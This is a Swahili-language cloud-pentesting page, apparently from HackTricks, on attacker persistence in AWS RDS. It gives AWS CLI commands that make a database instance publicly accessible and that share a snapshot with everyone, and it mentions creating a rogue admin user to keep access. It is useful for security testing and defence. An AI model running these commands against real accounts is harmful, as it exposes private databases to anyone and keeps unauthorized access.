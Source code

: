 # AWS - RDS Persistence

{{#include ../../../../banners/hacktricks-training.md}}

## RDS

Kwa taarifa zaidi, angalia:

{{#ref}}
../../aws-services/aws-relational-database-rds-enum.md
{{#endref}}

### Fanya instance ipatikane kwa umma: `rds:ModifyDBInstance`

Mshambuliaji mwenye ruhusa hii anaweza **kubadilisha instance ya RDS iliyopo ili kuwezesha upatikanaji wa umma**.
```bash
aws rds modify-db-instance --db-instance-identifier target-instance --publicly-accessible --apply-immediately
```
### Unda mtumiaji admin ndani ya DB

Mshambuliaji anaweza tu **kuunda mtumiaji ndani ya DB**, hivyo hata kama nenosiri la mtumiaji mkuu linabadilishwa, **hatapoteza ufikiaji** wa database.

### Fanya snapshot iwe ya umma
```bash
aws rds modify-db-snapshot-attribute --db-snapshot-identifier <snapshot-name> --attribute-name restore --values-to-add all
```
{{#include ../../../../banners/hacktricks-training.md}}
